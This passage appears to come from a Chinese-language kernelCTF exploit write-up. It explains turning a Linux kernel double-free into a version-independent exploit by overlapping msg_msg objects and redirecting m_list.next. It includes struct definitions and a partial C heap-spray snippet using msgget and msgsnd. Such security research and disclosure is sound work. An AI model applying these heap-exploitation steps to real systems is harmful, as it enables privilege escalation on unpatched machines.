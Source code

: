 ![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kSicx9eXWjnVRJVEcFRMrG7EWukxYicTWOfYx1EM8UDzJz8FFs4gSfmH9w/640?wx_fmt=png&from=appmsg "")  
  
你可以在我们的  
GitHub[12]  
 上找到 kernelCTF 的漏洞利用代码。  
## 通用型漏洞利用  
  
在成功利用 KernelCTF 之后，我决定利用这个漏洞开发一个通用型漏洞利用程序（一个无需修改就能在任何目标系统上稳定运行的程序）。我采用了一种不同的方法来避免一些兼容性和可靠性问题，其中最大的问题是 ROP 和其他依赖内核数据偏移的技术，因为这些偏移在不同的构建版本之间会发生变化。虽然为不同的构建版本编译一个小工具列表并不罕见，但完全避免这些麻烦显然更有意义。  
### 使用 msg_msg->mlist.next 指针进行转移  
  
利用双重释放漏洞，我们可以让msg_msg  
 对象与udata  
 重叠，从而控制m_list.next  
 指针。  
```
/* one msg_msg structure for each message */
struct msg_msg {
 struct list_head m_list;
 long m_type;
 size_t m_ts;  /* message text size */
 struct msg_msgseg *next;
 void *security;
 /* the actual message follows immediately */
};
[...]
struct list_head {
 struct list_head *next, *prev;
};
```  
  
通过将我们可控的msg_msg  
 的 next 指针增加 256，我们可以使其指向已被其他主消息引用的不同次级消息，从而创建重复引用。这为我们提供了一种简单的方法来将双重释放能力扩展到其他缓存，并攻击更多种类的对象。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kS4Mwj9rMibSoVxUPRSP35JyY7ySV1cbXibsNE7CK6V46Aghpp5icKKEh3g/640?wx_fmt=png&from=appmsg "")  
```
[...]
    // Spray msg_msg in kmalloc-256 and kmalloc-1k
    msg_t *msg = calloc(1, sizeof(msg_t) + 0xe8 - 48);
    int qid[SPRAY];
    for (int i = 0; i < SPRAY; i++)
    {
        qid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
        if (qid[i] < 0)
        {
            perror("[-] msgget");
        }
        *(uint32_t *)msg->mtext = i;
        *(uint64_t *)&msg->mtext[8] = 0xdeadbeefcafebabe;
        msg->mtype = MTYPE_PRIMARY;
        msgsnd(qid[i], msg, 0xe8 - 48, 0);
        msg->mtype = MTYPE_SECONDARY;
        msgsnd(qid[i], msg, 1024 - 48, 0);
    }
    // Prepare evil msg
    int evilqid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (evilqid < 0)
    {
        perror("[-] msgget");
    }
[...] // trigger double-free in kmalloc-256
```  
  